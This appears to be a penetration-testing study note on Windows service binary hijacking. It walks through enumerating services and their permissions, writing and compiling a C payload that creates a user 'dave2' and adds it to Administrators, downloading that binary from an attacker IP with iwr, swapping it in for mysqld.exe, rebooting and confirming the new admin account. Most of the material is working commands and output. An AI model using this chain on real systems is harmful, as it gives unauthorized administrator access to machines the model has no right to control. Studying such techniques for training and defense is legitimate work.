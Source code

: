 # Service Binary Hijacking

Each Windows service has an associated binary file that is executed on startup. If these binary files aren't properly secured, a user can replace it with malicious code.

For example, a user installs an application and makes it a Windows service but accidentally allows Read Write (RW) permissions for all users. We can replace this application with a malicious binary, and restart the service, or restart the system system and the malicious binary will execute.

***

## Enumerating Services

To get a list of installed Windows services we can choose a variety of different tools. **(Get-Service, Get-Ciminstance, GUI services.msc)**.&#x20;

### Get-Ciminstance

_<mark style="color:red;">**NOTE:**</mark>_ Get-CimInstance and Get-Service will return "Permission denied" if using WinRM. A RDP session will fix this on a non-administrative user.

```
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Name                      State   PathName
----                      -----   --------
Apache2.4                 Running "C:\xampp\apache\bin\httpd.exe" -k runservice
Appinfo                   Running C:\Windows\system32\svchost.exe -k netsvcs -p
AppXSvc                   Running C:\Windows\system32\svchost.exe -k wsappx -p
AudioEndpointBuilder      Running C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p
Audiosrv                  Running C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted -p
BFE                       Running C:\Windows\system32\svchost.exe -k LocalServiceNoNetworkFirewall -p
BITS                      Running C:\Windows\System32\svchost.exe -k netsvcs -p
BrokerInfrastructure      Running C:\Windows\system32\svchost.exe -k DcomLaunch -p
...
mysql                     Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
...
```

#### What we're looking for

We're looking for services that are installed in locations other than **C:\Windows\System32.** These applications are **user installed.**  For example**: C:\xampp\\.**

## Enumerating Permissions

Once we've enumerated the installed service and found one of interest, we can view the permissions.  We can use tools like: _**icacls**_ Windows utility or the PowerShell Cmdlet _**Get-ACL**_

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

### **icacls - Check Permissions of service**

```
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```

**Here we see the "Users" group has Full access to modify the binary.**&#x20;



## Create Malicious Binary

This can be a reverse shell, or a simpler payload. For example: creating a new user.

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

```c
kali@kali:~$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

## Transfer Malicious Binary - iwr

Our malicious binary creates a new user and adds it to Adminstrators group

```
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
```

## Move Malicious Binary to Service - Move

```
# Move target binary out of directoy.

PS> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

# Move malicious binary & rename to original.

PS> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

## Restart Service

If we have permissions on the service we can restart the service with `Restart-Service`, otherwise see below.

```
Restart-Service -name "ServiceName With Malicious exe"
```

## Restart

We'll need to restart the computer since most services are protected by Admistrators.&#x20;

```
PS C:\Users\dave> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

We're able to restart the system.

_**Shutdown Computer:**_

```
PS C:\Users\dave> shutdown /r /t 0 
```

## Verify Exploit

```
PS> Get-LocalGroupMember administrators

User        CLIENTWK220\Admin            Local
User        CLIENTWK220\evil_admin       Local
```
